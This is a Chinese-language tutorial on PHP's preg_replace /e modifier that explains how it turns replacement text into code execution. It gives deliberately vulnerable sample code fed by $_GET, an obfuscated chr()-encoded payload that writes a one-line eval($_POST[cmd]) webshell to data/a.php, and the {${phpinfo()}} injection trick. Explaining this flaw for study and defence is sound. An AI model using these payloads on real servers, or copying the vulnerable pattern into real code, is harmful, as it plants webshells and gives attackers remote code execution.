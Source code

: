 **preg_replace用法：**

http://www.cnblogs.com/crxis/p/7714636.html

mixed preg_replace ( mixed **$pattern** , mixed **$replacement** , mixed **$subject** [, int $limit = -1 [, int &$count ]] )

搜索 subject 中匹配 pattern 的部分， 以 replacement 进行替换。

参数说明：

- $pattern: 要搜索的模式，可以是字符串或一个字符串数组。
- $replacement: 用于替换的字符串或字符串数组。
- $subject: 要搜索替换的目标字符串或字符串数组。
- $limit: 可选，对于每个模式用于每个 subject 字符串的最大可替换次数。 默认是-1（无限制）。
- $count: 可选，为替换执行的次数。

 /e 修正符使 preg_replace() 将 replacement 参数当作 PHP 代码（在适当的逆向引用替换完之后）。提示：要确保 replacement 构成一个合法的 PHP 代码字符串，否则 PHP 会在报告在包含 preg_replace() 的行中出现语法解析错误

```php
<?
echo preg_replace("/test/e",$_GET["h"],"jutst test");
?>
```

如果我们提交?h=phpinfo()，phpinfo()将会被执行（使用/e修饰符，preg_replace会将 replacement 参数当作 PHP 代码执行）。 如果我们提交下面的代码会怎么样呢？ ?

```php
h=eval(chr(102).chr(112).chr(117).chr(116).chr(115).chr(40).chr(102).chr(111).chr(112).chr(101).chr(110).chr(40).chr(39).chr(100).chr(97). chr(116).chr(97).chr(47).chr(97).chr(46).chr(112).chr(104).chr(112).chr(39).chr(44).chr(39).chr(119).chr(39).chr(41).chr(44).chr(39).chr(60). chr(63).chr(112).chr(104).chr(112).chr(32).chr(101).chr(118).chr(97).chr(108).chr(40).chr(36).chr(95).chr(80).chr(79).chr(83).chr(84).chr(91). chr(99).chr(109).chr(100).chr(93).chr(41).chr(63).chr(62).chr(39).chr(41).chr(59)) 密文对应的明文是：fputs(fopen(data/a.php,w),<?php eval($_POST[cmd])?>); 
```

执行的结果是在/data/目录下生成一个一句话木马文件 a.php。



```php
<?php
function test($str)
{
}
echo preg_replace("/s*[php](.+?)[/php]s*/ies", 'test("\1")', $_GET["h"]);
?>
```

提交 ?h=phpinfo()，phpinfo()会被执行吗？ 肯定不会。因为经过正则匹配后， replacement 参数变为'test("phpinfo")'，此时phpinfo仅是被当做一个字符串参数了。 有没有办法让它执行呢？

当然有。在这里我们如果提交?h={${phpinfo()}}，phpinfo()就会被执行。为什么呢？ 在php中，双引号里面如果包含有变量，php解释器会将其替换为变量解释后的结果；单引号中的变量不会被处理。 注意：双引号中的函数不会被执行和替换。

在这里我们需要通过{${}}构造出了一个特殊的变量，'test("{${phpinfo()}}")'，达到让函数被执行的效果（${phpinfo()}会被解释执行）。 可以先做如下测试：

```
echo "{${phpinfo()}}";
```
